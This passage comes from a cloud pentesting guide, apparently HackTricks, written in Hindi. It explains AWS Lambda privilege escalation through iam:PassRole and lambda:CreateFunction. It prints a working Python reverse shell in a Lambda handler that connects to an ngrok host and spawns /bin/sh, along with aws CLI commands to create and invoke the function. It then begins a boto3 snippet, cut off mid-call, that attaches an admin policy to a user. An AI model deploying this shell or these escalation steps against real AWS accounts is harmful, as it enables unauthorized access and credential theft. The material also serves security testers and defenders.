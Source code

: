 # AWS - Lambda Privesc

{{#include ../../../banners/hacktricks-training.md}}

## lambda

lambda के बारे में अधिक जानकारी:

{{#ref}}
../aws-services/aws-lambda-enum.md
{{#endref}}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

**`iam:PassRole`, `lambda:CreateFunction`, और `lambda:InvokeFunction`** अनुमतियों वाले उपयोगकर्ता अपनी विशेषताओं को बढ़ा सकते हैं।\
वे **एक नया Lambda फ़ंक्शन बना सकते हैं और उसे एक मौजूदा IAM भूमिका सौंप सकते हैं**, जिससे फ़ंक्शन को उस भूमिका से संबंधित अनुमतियाँ मिलती हैं। उपयोगकर्ता फिर **इस Lambda फ़ंक्शन में कोड लिख और अपलोड कर सकता है (उदाहरण के लिए एक rev shell)**।\
एक बार फ़ंक्शन सेटअप हो जाने के बाद, उपयोगकर्ता **इसके निष्पादन को ट्रिगर कर सकता है** और AWS API के माध्यम से Lambda फ़ंक्शन को कॉल करके इच्छित क्रियाएँ कर सकता है। यह दृष्टिकोण प्रभावी रूप से उपयोगकर्ता को Lambda फ़ंक्शन के माध्यम से अप्रत्यक्ष रूप से कार्य करने की अनुमति देता है, जो कि इससे संबंधित IAM भूमिका द्वारा दी गई पहुँच के स्तर के साथ कार्य करता है।\\

एक हमलावर इसका दुरुपयोग करके **rev shell प्राप्त कर सकता है और टोकन चुरा सकता है**:
```python:rev.py
import socket,subprocess,os,time
def lambda_handler(event, context):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('4.tcp.ngrok.io',14305))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)
return 0
```

```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
--runtime python3.9 --role <arn_of_lambda_role> \
--handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
आप **लैम्ब्डा भूमिका अनुमतियों का दुरुपयोग** भी कर सकते हैं जो लैम्ब्डा फ़ंक्शन से ही हैं।\
यदि लैम्ब्डा भूमिका के पास पर्याप्त अनुमतियाँ थीं, तो आप इसका उपयोग करके अपने लिए प्रशासनिक अधिकार प्रदान कर सकते थे:
```python
import boto3
def lambda_handler(event, context):
client = boto3.client('iam')
response = client.attach_user_policy(
UserName='my_username',
```